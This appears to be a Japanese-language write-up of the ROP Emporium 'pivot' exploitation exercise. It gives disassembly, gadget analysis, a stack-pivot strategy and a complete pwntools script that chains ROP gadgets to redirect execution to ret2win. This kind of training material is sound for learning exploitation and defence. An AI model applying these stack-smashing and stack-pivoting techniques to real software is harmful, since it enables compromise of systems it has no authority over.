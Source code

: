 # pivot (ROP Emporium 7)

## Information

### uselessFunction
```asm
00000000004009a8 <uselessFunction>:
  4009a8:	55                   	push   rbp
  4009a9:	48 89 e5             	mov    rbp,rsp
  4009ac:	e8 6f fd ff ff       	call   400720 <foothold_function@plt>
  4009b1:	bf 01 00 00 00       	mov    edi,0x1
  4009b6:	e8 95 fd ff ff       	call   400750 <exit@plt>
```

### foothold_function
```asm
000000000000096a <foothold_function>:
 96a:	55                   	push   rbp
 96b:	48 89 e5             	mov    rbp,rsp
 96e:	48 8d 3d ab 01 00 00 	lea    rdi,[rip+0x1ab]        # b20 <_fini+0xc>
 975:	e8 b6 fe ff ff       	call   830 <puts@plt>
 97a:	90                   	nop
 97b:	5d                   	pop    rbp
 97c:	c3                   	ret
```

### ret2win
```asm
0000000000000a81 <ret2win>:
 a81:	55                   	push   rbp
 a82:	48 89 e5             	mov    rbp,rsp
 a85:	48 83 ec 40          	sub    rsp,0x40
 a89:	64 48 8b 04 25 28 00 	mov    rax,QWORD PTR fs:0x28
 ...
```


### usefulGadgets
```asm
00000000004009bb <usefulGadgets>:
  4009bb:	58                   	pop    rax
  4009bc:	c3                   	ret
  4009bd:	48 94                	xchg   rsp,rax
  4009bf:	c3                   	ret
  4009c0:	48 8b 00             	mov    rax,QWORD PTR [rax]
  4009c3:	c3                   	ret
  4009c4:	48 01 e8             	add    rax,rbp
  4009c7:	c3                   	ret
  4009c8:	0f 1f 84 00 00 00 00 	nop    DWORD PTR [rax+rax*1+0x0]
  4009cf:	00 
```

xchg: データの交換
-> pop raxと合わせてrspを任意の値にすることができる

```asm
0x00000000004009c0 : mov rax, qword ptr [rax] ; ret
0x00000000004006b0 : call rax
```
任意の位置を呼べる


### 2回目read
```asm
400985:	48 8d 45 e0          	lea    rax,[rbp-0x20]
400989:	ba 40 00 00 00       	mov    edx,0x40
40098e:	48 89 c6             	mov    rsi,rax
400991:	bf 00 00 00 00       	mov    edi,0x0
400996:	e8 75 fd ff ff       	call   400710 <read@plt>
```
0x40まで
-> offsetがあるので3 x 8バイトしか入れない

### heap address
```zsh
└─$ ./pivot
pivot by ROP Emporium
x86_64

Call ret2win() from libpivot
The Old Gods kindly bestow upon you a place to pivot: 0x7fcf557fff10
Send a ROP chain now and it will land there
> w
Thank you!

Now please send your stack smash
> w
Thank you!

Exiting
```
ここで出てきたアドレスが1回目readでの読み込み先
-> 後々ここにrspを飛ばしたい

## Solution
### Strategy
foothold_functionのGOT: 0x601040を +0x117 すればよい(ret2winにする)
- foothold_functionのアドレスを解決
- +0x117 する
- もう一回foothold_functionを呼び出す

#### +0x117
```asm
0x00000000004009c4 : add rax, rbp ; ret
0x00000000004007c8 : pop rbp ; ret
```
これで任意の値をraxに足せる

#### 手順
1. foothold_functionを呼ぶ
2. set rax: 0x601040
3. mov rax, qword ptr [rax] ; ret  # rax: foothold_functionのアドレス
4. add rax, rbp ; ret with rbp: 0x117
5. call rax

#### stack pivoting
1回目readの読み込み先をget
```python
conn.recvuntil('pivot: ')
pivot = int(conn.recvline().strip(), 16)
```

rspを飛ばす
1. set rax: pivot   
2. xchg rsp, rax ; ret


### Script
```python
from pwn import *

conn = process('./pivot')

conn.recvuntil('pivot: ')
pivot = int(conn.recvline().strip(), 16)
log.info('pivot: ' + hex(pivot))

payload = p64(0x400720)
payload += p64(0x4009bb)
payload += p64(0x601040)
payload += p64(0x4009c0)
payload += p64(0x4007c8)
payload += p64(0x117)
payload += p64(0x4009c4)
payload += p64(0x4006b0)

conn.sendlineafter('> ', payload)

payload = b'A' * 0x28
payload += p64(0x4009bb)
payload += p64(pivot)
payload += p64(0x4009bd)

conn.sendlineafter('> ', payload)
conn.interactive()
```